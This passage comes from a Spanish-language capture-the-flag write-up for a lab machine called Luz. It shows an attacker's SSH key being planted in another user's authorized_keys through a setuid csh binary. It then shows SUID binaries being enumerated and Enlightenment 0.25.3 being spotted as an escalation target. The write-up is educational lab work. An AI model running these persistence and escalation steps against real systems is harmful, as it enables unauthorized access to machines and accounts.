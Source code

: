 * [Understanding SSH authorized_keys file with Examples](https://www.howtouselinux.com/post/ssh-authorized_keys-file).

Esa "lista preferencial" en este caso se encontraría en el objeto `/home/aelis/.ssh/authorized_keys`, por lo que, juguemos :D

Les dejo de tarea como generar esas llaves y todo lo relacionado. Tomemos el contenido de la llave pública y copiémoslo, después vamos a la máquina víctima para pegarlo en un comando que al ser ejecutado nos copie esa llave en el objeto `authorized_keys` de **aelis**:

```bash
echo "echo 'ssh-rsa AAAAB...lBr0= lanz@lapachanga' > /home/aelis/.ssh/authorized_keys" > poc
/usr/bin/bsd-csh poc 
```

Ya deberíamos estar en la lista de **aelis**, pues intentemos ahora una conexión **SSH** como ese usuario:

```bash
ssh aelis@192.168.100.10
```

YYYYYYYYYYYyyYYyyyyYYyyYYY...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/luz/Luz_bash_ssh_aelisSH.png" style="width: 100%;"/>

Ahora si estamos con todo el entorno de **aelis** de una forma GuApEtOnAaaAA!

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Después de recorrer el sistema como 3 veces y buscando que es lo que estaba obviando, recordé lo que me dejé por allá arriba, el tema de **enlightenment** y **passwd**, veamos que es eso y descubramos si es un nuevo rabbit hole...

```bash
aelis@luz:~$ find / -perm -4000 -ls 2>/dev/null
    ...
    54488     24 -rwsr-xr-x   1 root     root          22840 Feb 11  2022 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    54493     60 -rwsr-xr-x   1 root     root          59712 Feb 11  2022 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system
    54492     24 -rwsr-xr-x   1 root     root          22832 Feb 11  2022 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    ...
```

Si buscamos de que trata tenemos:

> "Enlightenment is a Window Manager, Compositor and Minimal Desktop for Linux (the primary platform), BSD and any other compatible UNIX system." ~ [enlightenment.org](https://www.enlightenment.org/).

Interesante, pues juguemos a lo de siempre, busquemos vulns pa ese software...

```bash
aelis@luz:~$ enlightenment -version
...
Version: 0.25.3
```
